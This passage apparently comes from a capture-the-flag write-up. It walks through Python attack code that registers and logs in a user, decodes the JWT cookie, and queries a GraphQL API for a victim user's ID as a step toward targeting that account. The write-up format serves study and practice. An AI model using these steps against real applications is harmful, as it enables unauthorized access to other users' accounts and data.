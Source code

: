```python
                    lastname
                    __typename
                }
            }
        '''
    })
```

After that, just for information purposes and to check that everything works OK, we can get the JWT token from the `auth` cookie and get out user ID:

```python
def pad(s: str) -> str:
    return s + '=' * (-len(s) % 4)


def main():
    register_user()
    login()

    jwt_token = s.cookies.get('auth')
    own_id = json.loads(b64d(pad(jwt_token.split('.')[1]).encode())).get('id')

    log.success(f'Logged in as {USER} (password: {PASSWORD})')
    log.info(f'JWT token: {jwt_token}')
    log.info(f'Own user ID: {own_id}')
```

The `pad` function is just to add the necessary `=` padding to a Base64 encoded string.

Then, we query the tasks of the victim user employing a GraphQL query to extract its user ID (key `Assignedto`):

```python
    victim_user = 'Mark'

    r = s.post(f'{URL}/graphql', headers=HOST, json={
        'variables': {
            'username': victim_user
        },
        'query': '''
            query tasks($username: String!) {
                tasks(username: $username) {
                    Assignedto
                    __typename
                }
            }
        '''
    })

    victim_id = r.json()['data']['tasks'][0]['Assignedto']
    log.success(f"Victim's ID: {victim_id}")
```
